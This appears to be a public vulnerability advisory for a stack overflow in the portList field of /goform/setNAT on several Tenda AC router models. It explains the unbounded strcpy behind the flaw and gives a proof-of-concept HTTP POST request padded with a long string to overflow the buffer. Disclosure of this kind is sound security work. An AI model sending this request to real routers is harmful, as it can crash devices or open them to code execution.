

# Tenda Router  Vulnerability

This vulnerability exists in in module `portList` of `/goform/setNAT` and affects multiple devices of the Tenda Router. Equipment models include AC5, AC6, AC7, AC8, AC10, AC11. It affects several firmware versions, including the latest version number published on the official website. And it is RTOS system.

[https://www.tenda.com.cn/searchdown/AC.html](https://www.tenda.com.cn/searchdown/AC.html)

## Vulnerability description

（The pseudocode for the example is the last version of AC6）

On the `/goform/setNAT` page, there is a stack overflow vulnerability that allows an attacker to execute arbitrary code with a well-designed POST request, or to complete a denial of service attack.



1. The portList we input is unlimited.
2. And  if v9 is different from a fixed string, then `strcpy(v22, v9);` Copy it to v22, which is also unlimited in length. This causes a stack overflow in V22.

## POC

```
POST /goform/setNAT HTTP/1.1
Host: 192.168.0.1
Content-Length: 71
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1/
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=portList&portList=192.168.0.101aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa%3B21%3B22%3Bboth
```

### Verify

Vulnerability demo


If the number of characters were longer, it would be enough to overflow.